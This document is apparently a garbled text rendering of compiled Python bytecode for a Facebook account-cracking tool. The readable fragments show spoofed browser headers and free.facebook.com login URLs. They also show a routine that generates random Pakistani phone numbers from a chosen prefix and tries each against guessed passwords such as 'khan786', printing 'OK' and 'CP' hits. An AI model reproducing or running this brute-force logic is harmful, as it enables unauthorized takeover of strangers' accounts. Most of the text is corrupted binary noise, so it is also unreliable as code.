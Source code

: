 [1;37m [REHAN-RM M2] %s|[1;32mOK:-%s [1;37mr   r   r   ┌Ahmedr╞   r╟   r╚   r╔   r╩   zm.facebook.comr╦   r╠   r═   zB" Not=A?Brand";v="24", "Chromium";v="107", "Google Chrome";v="107"r╬   r╪   r╧   z"Linux"r╨   r╤   r╥   r*   r/   r+   r1   z▐text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9r╙   r╘   r╒   r╓   r╫   r┘   r┌   r█   r▄   r▌   r▐   r0   r▀   z~https://free.facebook.com/login/?refsrc=deprecated&ref_component=mbasic_footer&_rdr%27&zero_e=2&zero_et=1678716131&_rdc=1&_rdrrр   rс   z,https://free.facebook.com/login/save-device/rт   rу   zFhttps://free.facebook.com/login/device-based/validate-password/?shbl=0Frъ   rь   rэ   c                 є"   Ч g | ]\  }}|Ыd |ЫЭСМ
S rя   r
   rё   s      r   rї   zffb3.<locals>.<listcomp>─  s<   А Ё  4CЁ  4CЁ  4C╤PZ╨PS╨UZ└└└└U└U╨5KЁ  4CЁ  4CЁ  4Cr   z

[1;32m [REHAN-OK] %s | %sr°   r∙   r·   r]   r√   r№   r¤   rW   ·

[38;5;126m [REHAN-CP] rў   r    r   r  r  )rЫ   rЬ   rЭ   r  r╚   r╔   r  r  r  r  r  r  r  r  r  ┌Shahinr  r  s                     r   r╕   r╕   о  s\  А хМ
╫╥╨W╒Y]╒^a╒be╤^f╘^f╨Xg╤g╤h╘h╨h╒il╘is╫iy╥iy╤i{╘i{╨i{▌╘"╤$╘$ИЁ%	╪ЯЪаD╤)╘)и!╘,РЁ'╪$Я{Ъ{и4╤0╘0░╘3ШШ°Ё'╪&ШШШ°°°╪Ч[Т[С]Ф]Р╪ЧjТjСlФlР╪$Ё )ё )РD╪"ЯlЪlи8░E╤:╘:╫B╥B└7╚4╤P╘P╫X╥X╨Ya╨bd╤e╘e╫m╥m╨nu╨vy╤z╘zШ▌!Ь=н╤.╘.ШЁ  nа╨(8Ё   n╨:J╚EЁ   n╨S^Ё  aeЁ   nЁ  gyЁ  {Ё   nЁ  AUЁ  V_Ё   nЁ  a~Ё  @GЁ   nЁ  INЁ  PSЁ   nЁ  UpЁ  ruЁ   nЁ  wCЁ  EGЁ   nЁ  HPЁ  RrЁ   nЁ  tD	Ё  F	L	Ё   nЁ  N	^	Ё  `	j	Ё   nЁ  l	|	Ё  ~	B
Ё   nЁ  C
f
Ё  h
BЁ   nЁ  DTЁ  V`Ё   nЁ  bsЁ  uHЁ   nЁ  J[Ё  ]mЁ   nШ╪!(звЁ  .oё  "pЇ  "pШ▌')дy╨1L═c╨RX╘R]╤N^╘N^╤'_╘'_╫'e╥'e╨fg╤'h╘'h╒su╘s|Ё  ~]ї  _bЁ  ciЇ  cnё  _oЇ  _oё  tpЇ  tpў  tvЄ  tvЁ  wxё  tyЇ  tyЁ  @CЁ  KyЁ  AOЁ  WZЁ  !\Ё  !\Ш╪#*з<в<╨0yЁ  @FЁ  W\Ё  eiа<ё  $jЇ  $jШ╪&Ь╫7╥7╤9╘9╫>╥>╤@╘@Ш╪#аv╨-╨-╪%,д_╫%=╥%=╤%?╘%?а╪(,з{в{Ё  4CЁ  4C╨^e╘^m╫^v╥^v╤^x╘^x╫^~╥^~ё  _AЇ  _AЁ  4Cё  4CЇ  4Cё  (DЇ  (Dа▌ %╨&J╚C╨PS╚9╤&T╤ U╘ U╨ U▌ %╨&?└╤&F╤ G╘ G╨ G▌ $╨%<╕c╤ B╘ B╫ H╥ H╚╚S╔╨QT╔╨UY╤IY╤ Z╘ Z╨ Z▌ $╨%=╕s╤ C╘ C╫ I╥ I╚#╚c╔'╨RV╔,╨W[╤J[╤ \╘ \╨ \х #з
в
и3бда╪ %а╪)иV╨3╨3╪#&н#а:а:▌(-╨.O╨PS╤.S╨TY╤.Y╨Z]╤.]╨^j╤.j╤(k╘(k╨(k▌(,╨-D└c╤(J╘(J╫(P╥(P╨QT╨UX╤QX╨Y\╤Q\╨]a╤Qa╤(b╘(b╨(b▌(+п
к
░3йми╪(-ир(-ис (°°▌╘"╘2Ё 	Ё 	Ё 	▌Ф
Ш2СФРРРЁ	°°°хИaЙИИИs+   ┴.O ┬
B& ┬%O ┬&B,┬*LO ╧(O-╧,O-c                  є@  Ч g } t          ж   л          t          dж  л         t          dж  л        }	 t          t          dж  л        ж  л        }n# t          $ r d}Y nw xY wt          |ж  л        D ]C}dа                    dД t          dж  л        D ж   л         ж  л        }| а                    |ж  л         МDt          dм	ж  л        5 }t          ж   л          t          t          | ж  л        ж  л        }t          d
|z   ж  л         t          d|z   ж  л         t          ж   л          | D ]1}||z   }||dd
ddddddddg}	|а                    t          ||	ж  л         М2	 d d d ж  л         n# 1 swxY w Y   t          dж  л         t          ж   л          t          dж  л         t          dt          t          t          ж  л        ж  л        z   dz   t          t          t          ж  л        ж  л        z   ж  л         t          ж   л          t          dж  л         t!          j        dж  л         d S )Nz)[1;31m Code example: 0306,0315,0335,0345·[1;37m put code: ·<[1;31m example: 2000, 3000, 5000, 10000
[1;37m put limit: rR   ┌ c              3   єR   K  Ч | ]"}t          j        t          j        ж  л        V Ч М#d S йNйr  r	  ┌string┌digitsйrЄ   ┌_s     r   ·	<genexpr>zpak.<locals>.<genexpr>у  є.   ш ш А ╨%U╨%U└qеfдm╡F┤M╤&B╘&B╨%U╨%U╨%U╨%U╨%U╨%Ur   щ   ra   rb   rd   ·[1;37m Choice code ..:[1;32m ┌khankhan┌khan1122┌	khan12345┌khan1234┌khan12┌khan786┌khan123┌
khan123456┌khankhan123┌786786rn   ro   rp   rq   rr   r   йr   r	   r   rw   rx   rz   r   ru   r|   r   r}   r
   r   ┌rndmrЕ   rЖ   r   r   й
rЪ   ┌coderж   ┌nmbr┌nmpr  ┌tl┌psxrЫ   rЭ   s